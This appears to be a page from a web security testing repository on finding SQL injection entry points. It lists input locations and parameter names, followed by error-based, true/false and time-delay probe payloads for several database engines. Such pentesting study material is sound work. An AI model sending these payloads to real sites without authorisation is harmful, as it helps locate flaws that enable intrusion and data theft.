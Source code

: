 - ### [Injection Points](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#injection-points-1)
- ### [List of Parametes](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#list-of-parameters)
- ### [Giving Inputs](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#giving-inputs)
     * [Error Based](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#error-based)
     * True False Based 
     * Timing Attacks
     * Merging Characters
---

### Injection Points  
We should check for areas where ever we can give inputs like ==>
- Login Form
- Url Search Parameters
- Url id values
- Cookie Values
- XML encoded values like <storeId>**</storeId>
- Form Input Sections
- File Upload Sections
### List of parameters
    id
    select
    report
    role
    update
    query
    user
    name
    sort
    where
    search
    params
    process
    row
    view
    table
    from
    sel
    results
    sleep
    fetch
    order
    keyword
    column
    field
    delete
    string
    number
    filter

## Giving Inputs
### Error Based
We try to trigger any SQL error by applying these characters and strings
- Simple characters `'`, `"`, `;`, `)`
- Simple characters encoded: `%27`, `%22`, `%23`, `%3B`, `%29` and `%2A`
- Multiple encoding: `%%2727`, `%25%27`
- Unicode characters: `U+02BA`, `U+02B9`
### True False Based
Here we are trying to enter true and false logics. In some casses the website behaves differently to the true and false condition.

    and 1
    and true
    ' -- true
    page.asp?id=1 or 1=1 -- true
    page.asp?id=1' or 1=1 -- true
    page.asp?id=1" or 1=1 -- true
    page.asp?id=1 and 1=2 -- false
### Timing Attacks
Inputting different SQL commands to hit a time delay that can suggest the website may be vulnerable

    MySQL (string concat and logical ops)
    1' + sleep(10)
    1' and sleep(10)
    1' && sleep(10)
    1' | sleep(10)
    
    PostgreSQL (only support string concat)
    1' || pg_sleep(10)
    
    MSQL
    1' WAITFOR DELAY '0:0:10'
    
    Oracle
    1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
    1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
    
    SQLite
    1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
    1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))






    
